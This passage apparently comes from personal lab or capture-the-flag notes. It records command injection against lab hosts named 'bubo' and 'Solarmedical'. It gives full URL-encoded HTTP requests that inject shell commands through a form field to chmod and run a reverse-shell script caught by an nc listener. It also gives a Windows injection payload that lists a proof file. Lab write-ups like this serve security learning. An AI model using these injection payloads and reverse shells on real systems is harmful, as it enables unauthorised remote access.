 changing permissions to `executable`
```bash
$(chmod +x /tmp/revshell)
```
full payload with URL encoding:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 89
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28chmod+%2Bx+%2Ftmp%2Frevshell%29
```
![[Pasted image 20241111201254.png]]
setting up a `nc` listener to catch a reverse shell
![[Pasted image 20241111201508.png]]
executing reverse shell
```bash
$(/bin/bash /tmp/revshell)
```
Full encoded payload:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 92
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28%2Fbin%2Fbash+%2Ftmp%2Frevshell%29
```
![[Pasted image 20241111201611.png]]
proof
`e83e084c2bcb87c9b64480858edd7f75`
![[Pasted image 20241111201727.png]]
###### Solarmedical
#commandinjectionwindows 
tried utilizing this payload
```bash
c:\test"&dir C:\proof.txt
```
was able to identify `proof.txt`